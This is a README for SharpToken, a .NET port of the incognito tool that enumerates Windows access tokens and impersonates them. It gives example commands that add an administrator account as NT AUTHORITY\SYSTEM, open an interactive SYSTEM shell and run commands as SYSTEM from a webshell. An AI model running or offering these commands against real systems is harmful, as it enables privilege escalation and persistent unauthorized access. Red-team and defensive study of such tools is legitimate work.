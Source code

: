 # SharpToken


.NET版本的incognito

![image](https://user-images.githubusercontent.com/43266206/176751034-a6f46325-d221-407b-a50c-281862a17ea1.png)


## Usage

```
SharpToken By BeichenDream
=========================================================

Github : https://github.com/BeichenDream/SharpToken

Usage:

SharpToken COMMAND arguments

COMMANDS:

        list_token [process pid]

        list_all_token [process pid]

        add_user <tokenUser> <username> <password> [group] [domain]

        delete_user <tokenUser> <username> [domain]

    execute <tokenUser> <commandLine> [Interactive]


example:
    SharpToken list_token
    SharpToken list_token 6543
    SharpToken add_user "NT AUTHORITY\SYSTEM" admin 123456 Administrators
    SharpToken delete_user "NT AUTHORITY\SYSTEM" admin
    SharpToken execute "NT AUTHORITY\SYSTEM" "cmd /c whoami"
    SharpToken execute "NT AUTHORITY\SYSTEM" cmd true
```


## 枚举Token

枚举的信息包括SID,LogonDomain,UserName,Session,LogonType,TokenType,TokenHandle(Duplicate后的Token句柄),TargetProcessId(Token来源的进程),TargetProcessToken(Token在源进程的句柄)，Groups(Token用户所在组)

```
SharpToken list_token
```

![image](https://user-images.githubusercontent.com/43266206/176751244-dd8f8899-59ec-48e5-9bee-464c0e146573.png)


## 获得交互式shell

```
execute "NT AUTHORITY\SYSTEM" cmd true
```

![image](https://user-images.githubusercontent.com/43266206/176751714-c7edb21c-f0be-4794-a14f-be4a7b1fdf61.png)

## 获取命令执行结果(webshell下执行)

```
SharpToken execute "NT AUTHORITY\SYSTEM" "cmd /c whoami"
```

![image](https://user-images.githubusercontent.com/43266206/176751980-dd9413f4-1a4d-4cb0-8ba2-5e0b9ccb2eed.png)
